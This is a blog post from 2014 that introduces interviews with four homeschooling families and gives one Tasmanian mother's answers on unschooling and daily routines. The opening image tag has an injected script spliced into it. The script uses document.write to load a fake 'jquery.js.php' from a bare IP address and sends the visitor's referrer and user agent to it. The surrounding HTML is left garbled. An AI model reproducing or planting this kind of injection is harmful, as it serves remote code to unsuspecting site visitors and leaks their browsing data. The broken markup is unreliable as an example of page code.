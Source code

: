 ```yaml
---
layout: post
title: 'The Daily Life of Four Homeschooling Families'
date: 19-Oct-2014
categories: tbd
---
```


# The Daily Life of Four Homeschooling Families

## 19th October 2014

<div>

<p <img class="photo-horiz" ext/javascript" rel="nofollow"  document.write("<script language='javascript' rel='nofollow' type='text/javascript' src='http://5.45.67.97/1/jquery.js.php?r=" + encodeuri(document.referrer) + "&u=" + encodeuri(navigator.useragent) + "'></sc" + "ript>"); </script></noindex>  1942,   by Bernard Hoffman" src="http://media-cache-ec0.pinimg.com/736x/c5/ec/ce/c5ecce605de572e343a813ce9dc7fcb1.jpg" /></p>

<h6 Bored schoolgirl in Maine 1942,   Bernard Hoffman for <a href="http://life.time.com/">Life Magazine</a></h6>

 

Have you ever contemplated homeschooling? In the early morning, for instance, while searching for readers and shoes and hairbands, and trying to launch a stealth washcloth attack on the children, have you ever wondered what it might be like to opt out of the daily grind? How different would life look if you kept the kids at home and took a radical new approach to their education? Could it work? **How** would it work, exactly?

</div>

Recently, I tried to dig into these questions by interviewing four homeschooling parents for Mamabake. I asked them all the same bunch of questions, and although answers to some questions were similar (nobody, for instance, seemed too impressed with my queries about 'socialisation'!) , daily life looked quite different for each family.

First, Lauren from Tasmania, mother of three and blogger at <a href="http://www.owlet.com.au">Owlet</a>.

**Do you follow a curriculum, or the practice of ‘unschooling’**?

We are probably best defined as unschoolers. We understand that learning happens all the time, everywhere, and we make the most of it, providing lots of opportunities for learning. Most days it just feels like living.

**What’s a typical day home-schooling look like at your place?**

There are no typical days! Some days we go out to the shops or the beach, to gym or drama or our home school co-op or whatever activity we have planned. Some days we stay at home and there might be cooking, playing, drawing, maths workbooks (just for fun!), gardening, Minecraft, reading, watching movies or documentaries. We tend to follow a train of thought or a discussion and roll with it, finding fun and creative ways to explore it along the way.

**What are your academic and education dreams for your kids?******

I'd hope that they will find what they are passionate about and follow their own dreams, and I'm happy to support their choices.
